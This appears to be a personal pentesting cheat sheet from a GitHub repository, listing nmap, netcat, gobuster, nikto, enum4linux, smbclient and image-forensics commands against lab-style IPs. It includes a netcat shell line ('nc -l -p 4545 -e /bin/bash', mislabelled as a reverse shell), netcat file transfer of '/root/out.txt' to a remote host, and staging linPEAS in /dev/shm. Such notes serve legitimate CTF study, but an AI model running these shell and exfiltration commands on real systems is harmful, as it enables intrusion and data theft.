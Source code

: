 hackerone -> bug bouty
hacker101 -> ctf
hellbound hackers -> for basic web hacking
__NMAP__
-p -> specify port to scan
-sn -> ping scan
-sU -> UDP scan
-sC or --script -> use default scripts
-O -> OS detection
-sV -> version of services running on target
-A -> "aggressive mode"(OS detecton,version,traceroute)

__NETCAT__
nc -l 4545 -> creating a listner
nc (ip of listner) 4545 -> connect to the listner

nc ip 80
HEAD / HTTP/1.0

nc -l -p 4545 -e /bin/bash -> creating a reverse shell
file sharing
nc -l -p 4545 > out.txt -> creating listner expecting "out.txt"
cat '/root/out.txt' | nc ip 4545
nc -w 3 ip 4545 < out.txt        both can use to send file

__gobuster__
find directories- gobuster dir -u 10.10.40.230 -w usr/share/wordlists/dirb/common.txt 

find extensions - gobuster dir -u 10.10.40.230 -w /usr/share/wordlists/dirb/common.txt  -x .php

__NIKTO__
scan for vulnerabilities
nikto -h example.com 
nikto -h example.com -ssl -> to scan about ssl certs

**SMB enumeration with enum4linux**
enum4linux -a 10.10.10.10 -> for all info
enum4linux -U 10.10.10.10. | tee text.txt 
(tee - to write output in file)
for other SMB enumeration
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

smbclient -L 10.10.107.105
smbclient //10.10.107.105/guest

**SCP**
securely copy files and directories between two locations.
ex- 
*scp /opt/linPEAS/linepeas.sh janith@10.10.100.180:/dev/shm*
/dev/shm - temporary file storage files system that uses RAM for the storage

__analysing image__
strings image.jpg
exiftool image.jpg
eog image.jpg
binwalk -e image.png- > -e extract the attacked zip or executable

